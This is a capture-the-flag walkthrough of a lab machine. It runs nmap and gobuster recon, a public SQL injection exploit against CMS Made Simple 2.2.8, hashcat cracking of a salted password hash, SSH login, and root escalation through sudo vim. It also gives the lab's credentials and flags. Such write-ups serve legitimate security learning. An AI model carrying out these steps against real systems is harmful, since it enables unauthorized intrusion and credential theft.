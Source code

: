 # Simple CTF

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, hashcat, exploitdb

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.145.85

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sC: script scan<br>
-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
```
nmap -sC -sV -oN nmap.txt 10.10.145.85
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3),<br>
    80 (http Apache httpd 2.14.18),<br>
    2222 (ssh OpenSSH 7.2p2)

Anonymous login to ftp server is allowed

Vulnerability scan with nmap
```
nmap --script vuln 10.10.145.85
```

![1.5](./imgs/1.5.png)

Enumerate hidden directories on webserver
```
gobuster dir -u http://10.10.145.85 -w /usr/share/dirb/wordlists/common.txt
```

![1.2](./imgs/1.2.png)

Pages of Interest: /robots.txt, /simple

robots.txt has disallow entry /openemr-5_0_1_3

![1.3](./imgs/1.3.png)

/openemr-5_0_1_3 gives 404 error

/simple is a website that uses CMS Made Simple v 2.2.8

![1.4](./imgs/1.4.png)

### 2. FTP LOGIN

Anonymously login to ftp
```
ftp anonymous@10.10.145.85
```
cannot get file named pub from ftp server

### 3. EXPLOIT

Query ExploitDB for exploits
```
searchsploit cms made simple
```

![3.1](./imgs/3.1.png)

CMS Made Simple 2.2.8 is vulnerable to SQLi (CVE-2019-9053) through the installed news module

Use exploit
```
python3 /usr/share/exploitdb/exploits/php/webapps/46635.py -u http://10.10.145.85/simple
```

![3.2](./imgs/3.2.png)

**USERNAME**: mitch

PASSWORD SALT: 1dac0d92e9fa6bb2<br>
PASSWORD HASH: 0c01f4468bd75d7a84c7eb73846e8d96$  

Password cracking failed so will have to manually crack the password with hashcat
```
echo "0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2" > hash
hashid hash
```

![3.3](./imgs/3.3.png)

Hash type could be md5

-a ATTACK_MODE (0 = straight)
-m HASH_TYPE (20 = md5(\$salt.\$pass))
```
hashcat -a0 -m20 hash /usr/share/wordlists/rockyou.txt
```

![3.4](./imgs/3.4.png)

**PASSWORD**: secret

### SSH LOGIN

Log into SSH with found credentials
```
ssh mitch@10.10.145.85 -p2222
```
![4.1](./imgs/4.1.png)

**USER FLAG**: G00d j0b, keep up!

Check privileges
```
sudo -l
```

![4.2](./imgs/4.2.png)

Can run vim as root

### PRIVILEGE ESCALATION

From https://gtfobins.github.io/gtfobins/vim/#sudo
```
sudo vim -c ':!/bin/sh'
```

![5.1](./imgs/5.1.png)

**ROOT FLAG**: W3ll d0n3. You made it!